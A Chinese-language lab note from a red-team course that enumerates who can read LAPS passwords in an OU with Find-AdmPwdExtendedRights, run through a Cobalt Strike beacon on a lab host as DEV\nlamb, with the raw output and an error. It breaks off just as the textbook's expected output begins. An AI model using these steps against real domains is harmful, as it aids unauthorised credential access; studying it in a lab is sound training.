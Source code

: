 

```Find-AdmPwdExtendedRights```将列出允许读取给定 OU 中机器的 LAPS 密码的主体

我这里的输出跟教材不一样，会报一个错
```
beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl
[*] Tasked beacon to run: Find-AdmPwdExtendedRights -Identity Workstations | fl
[+] host called home, sent: 207 bytes
[+] received output:
#< CLIXML


Name              : Workstations
DistinguishedName : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Status            : Delegated

Name              : Workstations
DistinguishedName : OU=Workstations,DC=cyberbotic,DC=io
Status            : Delegated

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Processing</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="1"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="2"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><Obj S="progress" RefId="3"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Processing</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="4"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="5"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><S S="Error">Find-AdmPwdExtendedRights : More than one object found, search using distinguishedName instead_x000D__x000A_</S><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+ Find-AdmPwdExtendedRights -Identity Workstations | fl_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : NotSpecified: (:) [Find-AdmPwdExtendedRights], AmbiguousResultException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : AdmPwd.PSTypes.AmbiguousResultException,AdmPwd.PS.FindExtendedRights_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>

beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are DEV\nlamb
```

教材的输出是：
```
beacon> run hostname
wkstn-2
